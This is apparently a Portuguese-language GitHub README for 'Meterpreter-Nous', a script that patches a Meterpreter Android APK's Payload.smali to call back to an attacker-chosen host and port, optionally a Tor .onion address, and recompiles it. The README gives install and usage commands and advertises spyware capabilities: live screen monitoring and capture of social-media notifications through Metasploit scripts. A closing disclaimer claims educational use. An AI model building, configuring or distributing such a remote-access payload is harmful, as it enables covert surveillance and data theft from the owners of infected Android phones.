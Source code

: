 
---

# Meterpreter-Nous

![Logo](https://raw.githubusercontent.com/mikelkarma/Meterpreter-Nous/refs/heads/main/screenshot.png)


*"Hack the system. Reconfigure. Adapt. Overcome."*

Este script modifica e compila um APK personalizado, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.

---

## [ SYSTEM CORE ]

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.
- Suporte completo a hosts `.onion` para conexões sigilosas via **Tor**.
- Compilação automatizada do APK modificado.

---

## [ SYSTEM REQUIREMENTS ]

Certifique-se de possuir as ferramentas essenciais:

- [Python 3.x](https://www.python.org/)
- [apktool](https://github.com/iBotPeaches/Apktool)
- [Java](https://www.java.com/)

---

## [ INSTALL & DEPLOY ]

Clone o repositório e navegue até o diretório:

```bash
git clone https://github.com/mikelkarma/Meterpreter-Nous
cd Meterpreter-Nous
sh install.sh # Debian
```

## [ EXECUTION MODE ]

Defina o host e a porta diretamente na CLI:

```bash
python script.py --host <IP ou domínio> --porta <porta> --tor <true/false>
```

Exemplos de execução:

**1. Configuração de um host sem Tor:**

```bash
python script.py --host 192.168.0.1 --porta 8080 --tor false
```

**2. Configuração de um host .onion com Tor:**

```bash
python script.py --host exemplo.onion --porta 8080 --tor true
```

---

## [ MOD APK CAPABILITIES ]

Este APK possui capacidades avançadas, incluindo:

- Monitoramento em tempo real da tela do Android.
- Captura de notificações de redes sociais e outros aplicativos.

Os scripts necessários para ativar essas funções no Metasploit estão disponíveis em `msf-scripts`. Copie-os para o seu ambiente Metasploit e execute na sessão desejada:

```bash
meterpreter> run <script>
```

---

> "No system is safe. The only real security is obscurity."

---

## [ DISCLAIMER ]

Este código é disponibilizado apenas para fins educacionais e de pesquisa.

- Não há qualquer garantia de funcionamento ou segurança.
- O uso deste código é de total responsabilidade do usuário.
- Não me responsabilizo por qualquer uso indevido, ilegal ou mal-intencionado deste software.

Se optar por utilizar este código, faça-o de maneira ética e dentro dos limites da lei.

---

